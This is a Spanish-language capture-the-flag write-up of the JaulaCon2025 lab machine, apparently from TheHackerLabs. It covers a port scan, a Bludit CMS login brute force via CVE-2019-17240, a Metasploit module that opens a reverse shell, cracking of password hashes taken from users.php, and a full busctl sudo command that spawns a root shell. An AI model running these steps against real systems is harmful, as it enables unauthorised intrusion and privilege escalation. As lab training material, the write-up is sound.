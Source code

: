 # 🛡️ Write-up – JaulaCon2025 (TheHackerLabs)

## 🧠 Objetivo

Comprometer el sistema, obtener acceso como `root` y capturar las flags `user` y `root`.

---

## 🔎 1. Reconocimiento inicial

### 🧪 Escaneo de puertos con `nmap`

```bash
nmap -sC -sV -Pn 192.168.1.73
```

**Resultado:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian
80/tcp open  http    Apache httpd 2.4.62 (Debian)
```

El puerto 80 muestra contenido web gestionado por **Bludit CMS**:

```
http-generator: Bludit
http-title: Bienvenido a Bludit | BLUDIT
```


## 🌐 2. Resolución del dominio

El HTML contenía rutas absolutas apuntando a `http://jaulacon2025.thl`, lo que impedía que se mostraran los estilos correctamente al acceder por IP.

### 🔧 Solución:

Se añadió una entrada en `/etc/hosts`:

```
192.168.1.73  jaulacon2025.thl
```

Así se pudo acceder correctamente al contenido web renderizado.


## 🔓 3. Descubrimiento de login

A través de `/admin`, se accede al panel de login de Bludit CMS.

Tras enumerar rutas con `dirb`, se confirmó la ruta de administración:

```
http://jaulacon2025.thl/admin
```


## 🢨 4. Fuerza bruta de login (CVE-2019-17240)

Bludit 3.9.2 es vulnerable a bypass de limitación de intentos usando la cabecera `X-Forwarded-For`.

### 🔧 Se usó un script de Ruby encontrado en Exploit-DB:

- Script en Ruby más robusto que resolvió correctamente el login

### ✅ Credenciales obtenidas:

```
Usuario: Jaulacon2025
Contraseña: cassandra
```


## 📛 5. Explotación con Metasploit

Se usó el módulo:

```bash
use exploit/linux/http/bludit_upload_images_exec
```

Con los parámetros:

- USERNAME: `Jaulacon2025`
- PASSWORD: `cassandra`
- LHOST: `192.168.1.109`

### ✅ Resultado:

Obtención de **una reverse shell como **``


## 🔎 6. Post-explotación: enumeración y cracking

Se buscó información sensible en `/var/www/html/bl-content/databases/users.php`, donde se encontraron los siguientes hashes y salt:

| Usuario      | Hash (SHA1)                              | Salt          |
| ------------ | ---------------------------------------- | ------------- |
| admin        | 67def80155faa894bfb132889e3825a2718db22f | 67e2f74795e73 |
| Jaulacon2025 | a0fcd99fe4a21f30abd2053b1cf796da628e4e7e | bo22u72!      |
| JaulaCon2025 | 551211bcd6ef18e32742a73fcb85430b         | jejej         |

Se intentó crackear con `john` usando el formato `dynamic_26` y `rockyou.txt`, pero no funcionó debido a codificación incorrecta del archivo (fin de línea `^M`).

### 🔑 Se recurrió a [CrackStation](https://crackstation.net):

```text
Hash: 551211bcd6ef18e32742a73fcb85430b → Password: Brutales
```


## 🔐 7. Acceso a usuario con contraseña crackeada

Se accedió con `su JaulaCon2025` y la contraseña `Brutales`.

Luego:

```bash
sudo -l
```

Resultado:

```
User JaulaCon2025 may run the following command:
(root) NOPASSWD: /usr/bin/busctl
```


## ⚙️ 8. Explotación de `busctl` para obtener shell root

Se ejecutó:

```bash
sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 \
org.freedesktop.systemd1.Manager LogLevel s debug \
--address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
```

Y se obtuvo una **shell interactiva como root**.


## 🏑️ 9. Flags obtenidas

```bash
cat /home/JaulaCon2025/user.txt
cat /root/root.txt
```

---

## ✅ Resumen final

| Acción             | Herramienta/Técnica                        | Resultado              |
| ------------------ | ------------------------------------------ | ---------------------- |
| Descubrimiento CMS | `nmap`, análisis HTML                      | Bludit 3.9.2           |
| Fuerza bruta login | Script Python + Ruby exploit               | Usuario `Jaulacon2025` |
| Reverse shell      | `Metasploit` (`bludit_upload_images_exec`) | Acceso como `www-data` |
| Post-explotación   | Crackeo de hash desde `users.php`          | Contraseña `Brutales`  |
| Escalada a root    | `sudo /usr/bin/busctl`                     | Shell root             |
| Flags capturadas   | `cat user.txt && cat root.txt`             | Éxito total            |

